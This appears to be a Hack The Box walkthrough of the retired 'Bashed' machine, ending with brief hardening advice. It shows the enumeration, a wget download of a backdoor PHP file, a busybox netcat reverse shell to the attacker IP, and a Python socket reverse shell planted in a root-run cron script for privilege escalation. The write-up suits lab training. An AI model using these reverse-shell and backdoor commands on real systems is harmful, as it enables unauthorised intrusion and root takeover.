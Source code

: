 ```yaml
---
layout: post
date: 2023-05-16
title: "Bashed Walkthrough"
categories: [hackthebox]
tags: [hackthebox, linux, web, SUDO, Scheduled Job Abuse]
---
```


This is a walkthrough on how to complete the Bashed box on Hackthebox.com. This box has been retired. The box is rated as **easy** difficulty. You can attempt the machine [here](https://app.hackthebox.com/machines/118) as well as view their write up on the box. 

Required Skills include: Web enumeration, Linux fundamentals.


I first started out with nmap scan as you must know what is open and what is closed. 

sudo nmap -Pn -n -v -sC -sV --open --min-rate=1000 -oA bashed BashedIP

```shell
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
|_http-title: Arrexel's Development Site
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

added bashed.htb to hosts file so I am able to access the page online.

![](/assets/images/Bashed/mainpage.jpg)

This links to another interesting page with more information relating to the exploit. 

![](/assets/images/Bashed/mainpage2.jpg)

This shows an example of a php file that is on the server, however I do not know that at this point in time. 

![](/assets/images/Bashed/githubpage.jpg)


https://github.com/Arrexel/phpbash


ran feroxbuster

```shell

feroxbuster -u http://bashed.htb/ -k --wordlist=/usr/share/wordlists/dirb/big.txt

```


```shell
404      GET        -l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      161l      397w     7743c http://bashed.htb/
404      GET        9l       34w      296c http://bashed.htb/Documents%20and%20Settings
404      GET        9l       33w      284c http://bashed.htb/contact%20us
301      GET        9l       28w      306c http://bashed.htb/css => http://bashed.htb/css/
301      GET        9l       28w      306c http://bashed.htb/dev => http://bashed.htb/dev/
404      GET        9l       33w      285c http://bashed.htb/donate%20cash
404      GET        9l       33w      288c http://bashed.htb/external%20files
301      GET        9l       28w      308c http://bashed.htb/fonts => http://bashed.htb/fonts/
404      GET        9l       33w      283c http://bashed.htb/home%20page
301      GET        9l       28w      309c http://bashed.htb/images => http://bashed.htb/images/
301      GET        9l       28w      305c http://bashed.htb/js => http://bashed.htb/js/
404      GET        9l       33w      284c http://bashed.htb/modern%20mom
301      GET        9l       28w      306c http://bashed.htb/php => http://bashed.htb/php/
404      GET        9l       33w      288c http://bashed.htb/press%20releases
403      GET       11l       32w      298c http://bashed.htb/server-status
404      GET        9l       33w      287c http://bashed.htb/style%20library
301      GET        9l       28w      310c http://bashed.htb/uploads => http://bashed.htb/uploads/
403      GET       11l       32w      302c http://bashed.htb/uploads/.htaccess
403      GET       11l       32w      302c http://bashed.htb/uploads/.htpasswd
404      GET        9l       34w      304c http://bashed.htb/uploads/Documents%20and%20Settings
404      GET        9l       33w      295c http://bashed.htb/uploads/Program%20Files
404      GET        9l       33w      292c http://bashed.htb/uploads/contact%20us
404      GET        9l       33w      293c http://bashed.htb/uploads/donate%20cash
404      GET        9l       33w      296c http://bashed.htb/uploads/external%20files
404      GET        9l       33w      291c http://bashed.htb/uploads/home%20page
404      GET        9l       33w      292c http://bashed.htb/uploads/modern%20mom
404      GET        9l       33w      292c http://bashed.htb/uploads/my%20project
404      GET        9l       34w      297c http://bashed.htb/uploads/neuf%20giga%20photo
404      GET        9l       33w      296c http://bashed.htb/uploads/press%20releases
404      GET        9l       33w      290c http://bashed.htb/uploads/site%20map
404      GET        9l       33w      295c http://bashed.htb/uploads/style%20library

```


going to this page provides us with a semi-shell which was shown above in the github repo. 

http://bashed.htb/dev/phpbash.php


![](/assets/images/Bashed/phpbash.jpg)


sudo -l

![](/assets/images/Bashed/phpbash2.jpg)

cd .. 

cd uploads/

wget http://10.10.14.7/simple-backdoor.php

http://bashed.htb/uploads/simple-backdoor.php

navigate to that page for further command execution to try and get a full shell.
	this did not work.

I saw that it was running busybox when I typed ls /bin

so I ran this command with my listener running 


```shell
busybox nc 10.10.14.7 4444 -e /bin/bash
```

```shell
nc -lvnp 4444
```


I now have a bad shell as user "www-data" so I  can upgrade with 


```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

This enables me to have lateral movement.


```shell
sudo -u scriptmanager /bin/bash
```


I am now the user "scriptmanager".


I attempt to run sudo -l where it asks for a password of which I do not have.



I then travel to /home and see another user. arrexel which I can read his files and thus got the user flag.

![](/assets/images/Bashed/shell.jpg)



travelling to / shows me an interesting folder. /scripts which I travel to finding test.py and test.txt

![](/assets/images/Bashed/shell2.jpg)

seeing the files you can see test.py is owned by scriptmanager and test.txt is owned by root.

```python
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```


I read test.py which it creates the test.txt file and thus I can assume that the script is being automated as root. I can then change the file contents of test.py which I uploaded a bash rev shell into test.py

I got this reverse shell from https://revshells.com

```python
import os
import pty
import socket


s=socket.socket()
s.connect(("10.10.14.7",5555))
[os.dup2(s.fileno(),f)for f in(0,1,2)]
pty.spawn("/bin/bash")
```



This gave me a root shell.



![](/assets/images/Bashed/pwned.jpg)



You can secure the exploited vulnerability by first not having an interactive shell built into your webapp. Another step to take is to ensure that you do not have scripts running at elevated levels if unnecessary. To change this, you will need to change who is running the automated job. The permissions seemed to be fine on this machine.  





